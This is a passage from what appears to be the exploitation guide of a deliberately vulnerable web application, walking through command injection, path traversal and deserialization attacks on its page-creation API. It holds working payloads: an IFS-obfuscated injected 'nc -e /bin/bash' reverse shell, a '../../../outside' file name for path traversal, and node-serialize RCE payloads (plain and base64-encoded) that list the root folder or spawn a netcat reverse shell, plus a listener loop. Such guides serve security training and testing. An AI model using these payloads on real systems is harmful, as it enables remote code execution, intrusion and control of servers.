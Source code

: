     ```
    ";nc${IFS%??}-e${IFS%??}/bin/bash${IFS%??}127.0.0.1${IFS%??}4242;echo${IFS%??}"
    ```
6. For the reverse shell, input any shell command in the attacker's terminal running the `netcat` service.

### CWE-22: Improper Limitation of a Pathname to a Restricted Directory (’Path Traversal’)

1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block.
4. Add an image block, set it to "Upload a new image" and either "Upload a file" or "Download from an external URL", then input any image/URL and set the file name to `../../../outside`.
5. Look at the repository's contents. The image should have been saved in the repository's root.

### CWE-502: Deserialization of Untrusted Data

Show the contents of the root folder in the API server's logs:
1. [Log-in as an existing user from the API.](#logging-in-from-the-api)
2. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml

    <?xml version='1.0'?>
    <page title="Exploit" author='2' publicationDate=''>
        <block type='header'>Deserialize THIS</block>
        <!-- {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"} -->
        <block type='image'>eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2xzIC8nLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTt9KCkifQ==</block>
    </page>
    ```
3. Look at the API server's logs inside the terminal.

Spawn a reverse shell:
1. Use `netcat` to create a service listening on port 4242 of the attacker's machine by executing this short shell script:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the API.](#logging-in-from-the-api)
3. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml

    <?xml version='1.0'?>
    <page title="Exploit" author='2' publicationDate=''>
        <block type='header'>Deserialize THIS</block>
        <!-- {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('nc -e /bin/bash 127.0.0.1 4242')}()"} -->
        <block type='image'>eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ25jIC1lIC9iaW4vYmFzaCAxMjcuMC4wLjEgNDI0MicpfSgpIn0=</block>
    </page>
    ```
3. Input any shell command in the attacker's terminal running the `netcat` service.
